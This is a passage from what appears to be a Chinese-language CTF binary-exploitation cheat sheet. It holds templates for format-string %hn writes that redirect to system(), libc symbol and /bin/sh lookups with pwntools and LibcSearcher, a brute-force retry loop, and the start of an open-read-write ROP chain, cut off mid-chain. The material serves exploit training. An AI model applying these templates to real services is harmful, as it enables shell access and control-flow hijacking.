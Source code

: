 ```python
"""

payload_10=b"%"+str(system_addr_0).encode("utf-8")+b"c%7$hn"

payload_10+=b"%"+str(0x10000+system_addr_1-system_addr_0).encode("utf-8")+b"c%9$hn"

payload_10+=b"%"+str(0x10000+system_addr_2-system_addr_1).encode("utf-8")+b"c%15$hn\x00"

```



##### ⑧. LibcSearcher 老版用法和新版用法
```python
#pwntools 使用libc方法

libc_name="/lib/x86_64-linux-gnu/libc.so.6"

libc=ELF(libc_name)

write_offset=libc.symbols["write"]

bin_sh_address=libc_address+next(libc.search(b"/bin/sh"))

# 新版LibcSearcher 使用方法
from LibcSearcher import *
obj = LibcSearcher("fgets", 0x7ff39014bd90) # 使用一个已知符号地址作为初始约束，初始化 LibcSearcher
#obj.add_condition("atoi", 218528) # 添加一个约束条件
'''
obj.select_libc(2) # 手动选择 2 号 Libc 作为正确的 Libc
'''
printf_addr = obj.dump("printf") # 根据已有约束条件，查询某个符号在 Libc 中的地址
```



##### ⑨. 爆破模板
```python
#爆破代码书写模板
#你要是足够自信能够很好的预测爆破概率或者运气足够好也可以用 for i in range(16 * ?)之类的也行
while True:
    try:
    	'''
   	 	#如果爆破成功要实现的代码
   	 	#还有就是所谓的爆破只是说往往可能有一个或两个数字（这里都指16位数字）你泄露不了，只能硬猜
   	 	#所以这里的代码你就自己随便假设个那个数字就行
    	'''
    except:
        sh.close()
        
```



##### ⑩. orw ROP格式
````python

payload = flat([
    pop_rdi_ret_addr,
    heap_base + 0x2A40,
    pop_rsi_ret_addr,
    0,
    pop_rdx_ret_addr,
    0,
    pop_rax_ret_addr,
    2,
    syscall_ret_addr,   #open
````